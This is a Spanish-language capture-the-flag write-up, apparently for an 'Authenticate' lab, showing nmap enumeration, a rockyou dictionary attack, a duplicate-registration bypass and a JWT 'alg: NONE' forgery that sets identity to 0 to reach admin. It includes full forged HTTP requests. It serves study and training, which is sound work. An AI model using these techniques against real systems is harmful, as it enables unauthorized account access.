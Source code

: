 # Authenticate 🛅

Security, Owasp top 10, Cron. (#nmap, #lfi, #gobuster, #session #javascript, #curl, #ssh2python.py, #linpeas.sh, #upload_file_nc.sh )

## Tabla de contenido

- [Enumeración](#Enumeración).
- [Web Site](#Web-Site).
- [Shell](#Shell). 


--------------------------------
### Enumeración
-------------------------------
Hacemos una revisión general:
```plain
nmap -sC -sV -oN nmap/initial 10.10.71.122
```

* -oN: Guardar el sondeo en formato normal.
* -sC: Realizar análisis con los scripts por defecto.
* -sV: Detección de la versión de servicios.

Resultado:
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 11:8e:34:34:df:42:17:7b:ab:dc:44:9b:03:17:36:bb (RSA)
|   256 a5:d7:ed:38:db:04:e3:ef:8c:8a:14:25:06:94:f5:a9 (ECDSA)
|_  256 f4:f0:ea:5d:64:b2:3e:cf:16:7d:ef:a8:67:a3:43:0c (ED25519)
5000/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-title: Live demonstrations
7777/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-title: No Auth
8888/tcp open  http    Werkzeug httpd 0.16.0 (Python 3.6.9)
|_http-title: Auth hacks
MAC Address: 02:CC:F0:75:A4:C9 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
--------------------------------
### Dictionary Attack
-------------------------------
El ataque utilizado se hace a través del diccionario rockyou.txt, agregado a través del burpsuite para los siuientes usuarios:
* Jack
* Mike

--------------------------------
### Re-registration
-------------------------------
Utilizamos el endpoint de registro de usuario registrando " arthur", el cuál ya existe, el nuevo registro permite acceder al usuario existente.

--------------------------------
### JSON Web Token
-------------------------------

Los JWT se dividen en 3 partes:
1) Header:
```
{  "alg": "HS256", "typ": "JWT"}
```
* alg: Podría ser "HMAC", "RSA" o "SHA256".

2) Payload:
Contiene la data puede ser todo tipo según se requiera.
3) Signature:
Sirve para corroborar la integridad de los datos.


Cuando se visita la página alojada en el puerto "5000"
```
http://10.10.149.137:5000/
```
Utilizas las credenciales user:user seleccionar Authenticate-> "/auth" al interceptar la petición con burpsuite:

Request:
```
POST /auth HTTP/1.1
Host: 10.10.149.137:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 37
Origin: http://10.10.149.137:5000
Connection: close
Referer: http://10.10.149.137:5000/

{"username":"user","password":"user"}
```

Response
```
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 188
Server: Werkzeug/0.16.0 Python/3.6.9
Date: Thu, 26 Nov 2020 03:18:35 GMT

{"access_token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2MDYzNjEwMTUsImlhdCI6MTYwNjM2MDcxNSwibmJmIjoxNjA2MzYwNzE1LCJpZGVudGl0eSI6MX0.LHBYwdUJ6EX8SMUj-ts5dBu0D3OR7fX_07ZTxdJl2aI"}
```

Posteriormente al seleccionar en el botón "Go" -> "/protected":
```
GET /protected HTTP/1.1
Host: 10.10.149.137:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Authorization: JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2MDYzNjEwMTUsImlhdCI6MTYwNjM2MDcxNSwibmJmIjoxNjA2MzYwNzE1LCJpZGVudGl0eSI6MX0.LHBYwdUJ6EX8SMUj-ts5dBu0D3OR7fX_07ZTxdJl2aI
Connection: close
Referer: http://10.10.149.137:5000/
```
Utilizaremos la siguiente página que realiza la decodificacion de jwt - HS256 "https://jwt.io/"

```
-----------     HEADER      -----------
{
  "typ": "JWT",
  "alg": "HS256"
}
---------------------------------------
-----------     Payload      -----------
{
  "exp": 1606361015,
  "iat": 1606360715,
  "nbf": 1606360715,
  "identity": 1
}
---------------------------------------
------     VERIFY SIGNATURE      ------
HMACSHA256(
  base64UrlEncode(header) + "." +
  base64UrlEncode(payload),
  
your-256-bit-secret

) secret base64 encoded
---------------------------------------
```
1) Primera parte "HEADER".
2) Segunda parte "Payload".
```
{"typ":"JWT","alg":"NONE"}
{"exp":1586620929,"iat":1586620629,"nbf":1586620629,"identity":2}
```
1)Encriptando primera parte (base64).
2)Encriptando segunda parte (base64).
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0K
eyJleHAiOjE1ODY2MjA5MjksImlhdCI6MTU4NjYyMDYyOSwibmJmIjoxNTg2NjIwNjI5LCJpZGVudGl0eSI6Mn0K
```

Utilizaremos el mismo método para acceder al admin cambiando el identity por 0:
```
{"exp":1586620929,"iat":1586620629,"nbf":1586620629,"identity":0}
eyJleHAiOjE1ODY2MjA5MjksImlhdCI6MTU4NjYyMDYyOSwibmJmIjoxNTg2NjIwNjI5LCJpZGVudGl0eSI6MH0K
```
```
GET /protected HTTP/1.1
Host: 10.10.149.137:5000
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Authorization: JWT eyJ0eXAiOiJKV1QiLCJhbGciOiJOT05FIn0K.eyJleHAiOjE1ODY2MjA5MjksImlhdCI6MTU4NjYyMDYyOSwibmJmIjoxNTg2NjIwNjI5LCJpZGVudGl0eSI6MH0K.
Connection: close
Referer: http://10.10.149.137:5000/
```
La llave obtenida: 
```
HTTP/1.0 200 OK
Content-Type: text/html; charset=utf-8
Content-Length: 35
Server: Werkzeug/0.16.0 Python/3.6.9
Date: Thu, 26 Nov 2020 04:07:49 GMT

Welcome admin: 9249****************28
```